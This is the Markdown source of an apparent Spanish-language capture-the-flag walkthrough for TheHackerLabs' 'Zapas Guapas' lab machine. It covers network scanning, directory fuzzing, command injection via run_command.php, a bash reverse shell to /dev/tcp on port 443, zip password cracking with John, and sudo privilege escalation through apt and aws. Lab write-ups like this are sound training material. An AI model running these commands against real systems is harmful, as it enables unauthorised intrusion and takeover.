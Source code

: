 ```yaml
---
layout: post
title: "Zapas Guapas"
date: 2024-06-07 15:20:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Zapas Guapas </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/zapas-guapas/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Zapasguapas/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Zapasguapas/arp.png){:.margin}

**2\.** Escaneando puertos y servicios activos del host.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nmap.png){:.margin}

**3\.** Veo una pagina web pero sin mayor importancia.

`http://192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/80.png){:.margin}

**4\.** Fuzzeo recursos en la web.

`gobuster dir -u http//192.168.1.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,js -q`

![img](/notas/public/img/thehackerlabs/Zapasguapas/gobuster.png){:.margin}

**5\.** Lo interesante esta en el login, revisando la fuente encuentro un fichero php que ejecuta comandos.

`http://192.168.1.6/login.html`

![img](/notas/public/img/thehackerlabs/Zapasguapas/login.png){:.margin}
![img](/notas/public/img/thehackerlabs/Zapasguapas/logincode.png){:.margin}

**6\.** Me dirijo al fichero con los parametros requeridos y pruebo con un comando.

`http://192.168.1.6/run_command.php?username=&password=id`

![img](/notas/public/img/thehackerlabs/Zapasguapas/runcommand.png){:.margin}

**7\.** Obteniendo una reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nvlp 443`

![img](/notas/public/img/thehackerlabs/Zapasguapas/nc.png){:.margin}

_7.2- Ingreso el comando para enviar la shell_

`http://192.168.1.6/run_command.php?username=&password=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Zapasguapas/bashi.png){:.margin}

_7.3- Recibo la conexion por nc_

![img](/notas/public/img/thehackerlabs/Zapasguapas/ncok.png){:.margin}

**8\.** Encuentro ciertas pistas, y ademas un zip que contiene un password.txt pero esta protegido con una contraseña para descomprimir.

`cat /etc/passwd | grep bash`

`ls /home/test/ /home/proadidas/ /home/pronike/`

`cat /home/proadidas/user.txt /home/pronike/nota.txt`

`ls /opt`

`unzip -l /opt/importante.zip`

`unzip /opt/importante.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/look.png){:.margin}

**9\.** Traendo el comprimido a mi maquina local y crackeando la pass.

_9.1- Lo paso a base64_

`base64 -w0 /opt/importante.zip; echo`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64encode.png){:.margin}

_9.2- Recupero el comprimido en local_

`echo "hash" | base64 -d -w0 > file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/base64decode.png){:.margin}

_9.3- Crackeando la contraseña y descomprimiendo_

`zip2john file.zip > hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

`unzip file.zip`

![img](/notas/public/img/thehackerlabs/Zapasguapas/john.png){:.margin}

**10\.** Accedo por ssh con las credenciales indicadas en el archivo.

`cat password.txt`

`ssh pronike@192.168.1.6`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sshpronike.png){:.margin}

**11\.** Veo la nota anterior, y ademas tengo un binario que puedo ejecutar justamente como proadidas.

`cat nota.txt`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudol.png){:.margin}

**12\.** En [gtfobins](https://gtfobins.github.io/gtfobins/apt/#sudo) podemos ver como usar el binario, en este caso saltar a proadidas.

_12.1- Esperamos un poco hasta que salte esta parte_

`sudo -u proadidas apt changelog apt`

![img](/notas/public/img/thehackerlabs/Zapasguapas/aptchangelog.png){:.margin}

_12.2- Me lanzo una bash y ya soy usuario proadidas_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbash.png)
![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashok.png)

**13\.** Escalando privilegios.

_13.1- Hay un binario root, otra ves [gtfobins](https://gtfobins.github.io/gtfobins/aws/#sudo)  y ejecuto el binario_

`sudo -l`

`sudo -u root aws help`

![img](/notas/public/img/thehackerlabs/Zapasguapas/sudolproadidas.png){:.margin}

_13.2- Al final ingreso el comando para lanzarme una bash_

`!/bin/bash`

![img](/notas/public/img/thehackerlabs/Zapasguapas/binbashroot.png){:.margin}

_\-> Ya somos root_

![img](/notas/public/img/thehackerlabs/Zapasguapas/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>